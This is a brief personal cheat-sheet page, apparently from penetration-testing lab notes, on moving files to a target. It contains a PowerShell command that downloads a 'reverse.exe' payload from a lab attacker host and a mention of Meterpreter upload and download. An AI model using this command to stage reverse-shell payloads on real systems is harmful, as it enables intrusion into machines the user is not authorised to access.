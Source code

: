 ![[Pasted image 20250401144455.png]]
# Powershell Specific
---
- `Invoke-WebRequest 10.10.14.19:8000/reverse.exe -OutFile reverse.exe`
# **Metasploit using Meterpreter**
- `upload` / `download`